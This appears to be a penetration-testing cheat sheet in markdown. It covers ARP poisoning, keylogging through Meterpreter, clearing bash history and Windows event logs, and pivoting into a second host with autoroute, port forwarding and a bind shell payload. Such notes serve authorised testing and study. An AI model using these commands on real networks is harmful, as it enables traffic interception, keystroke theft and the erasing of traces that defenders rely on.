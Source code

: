 # 1 Info Gathering and Enumeration


# 2 Exploitation
## ARP Poisoning
```
echo 1 > /proc/sys/net/ipv4/ip_forward
cat /proc/sys/net/ipv4/ip_forward
```
```
arpspoof -i <interface> -t <ip1> -r <ip2>
```
```
sudo wireshark -i <interface> -k
```



# 3 Post-Exploitation
## Keylogging
```
meterpreter > getdesktop
```
```
meterpreter > keyscan_start
meterpreter > keyscan_dump
meterpreter > keyscan_stop
```
```
meterpreter > migrate -N winlogon.exe
```

## Cleanup Resource Scripts
```
meterpreter > resource <path_to_cleanup_rc_file>
```

## Clear Linux History
```
cat /dev/null > ~/.bash_history
history -c
```

## Clear Windows Event Logs
```
meterpreter > clearev
```

## Pivoting
```
meterpreter > ipconfig
meterpreter > arp
```
```
meterpreter > run autoroute -s <subnet_in_cidr>
meterpreter > run autoroute -p
```
```
use auxiliary/scanner/portscan/tcp
set RHOSTS <ip2>
```
```
meterpreter > portfwd add -l <local_port_on_kali> -p <remote_port_on_ip2> -r <ip2>
meterpreter > portfwd list
```
```
netstat -an | grep LISTEN
nmap -Pn -sV -p<local_port> localhost
```
```
use <exploit_module>
set RHOSTS <ip2>
set payload windows/meterpreter/bind_tcp
```
- `LPORT` will be opened on `<ip2>`.

## Working Directories
- Windows: `C:\Temp`
- Linux: `/tmp`
